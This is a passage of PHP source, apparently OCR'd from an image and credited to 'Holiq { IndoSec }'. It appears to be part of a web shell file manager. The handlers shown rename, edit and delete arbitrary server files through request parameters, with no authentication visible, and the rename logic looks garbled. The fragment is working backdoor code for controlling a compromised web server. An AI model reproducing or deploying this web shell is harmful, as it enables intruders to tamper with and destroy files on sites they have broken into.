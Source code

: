         if ($hasil) {
            echo 'Berhasil Update!!';
        }else{
            echo 'Gagal Update!!';
        }
        echo "<br/><br/>";
   
        $lama = $file;
        $baru = $_POST['namanew'];
        rename( $baru, $lama);
        if(file_exists($baru)) {
            echo "Nama $baru Telah Digunakan";
        }else{
            if(rename( $lama, $baru)) {
                echo "Sukses Mengganti Nama Menjadi $baru";
            }else{
                echo "Gagal Mengganti Nama";
            }
        }echo "<br/><br/>";
    }
   
   
   
   
    //hapus_file
    if ($_GET['aksi'] == 'hapusf') {
        echo '[ <a href="?aksi=view&dirf='.$file.'">lihat</a> ]  [ <a href="?aksi=edit&dirf='.$file.'">Edit</a> ]  [ <a href="?aksi=hapusf&dirf='.$path.'/'.$file.'">Hapus</a> ]';
        $output ="
        <div class='card container'>
            <center><br/>
                <font color='black'>Yakin Menghapus : $file
            </center><br/><br/>
            <form method='POST'>
                <a class='btn btn-danger' href='?'>Tidak</a>
                <input type='submit' name='ya' class='float-right btn btn-success' value='  Ya  '>
            </form><br/><br/>
        ";
        echo $output;
       
        if ($_POST['ya']) {
            $hapus = unlink($file);
            if ($hapus) {
                echo '<script>window.location="?dir='.$path.'"; alert("Berhasil Menghapus File");</script>';
            }else{
                echo "Gagal Menghapus File!!<br/><br/></font>";
            }
        }
        echo "</div><br/><br/>";
    }
/*
////////////////////////////////////////////////////////////////////////////////
\\\\\\\\\\\\\\\\\\\\\\\\\\©2019 Holiq { IndoSec }\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
////////////////////////////////////////////////////////////////////////////////
*/
 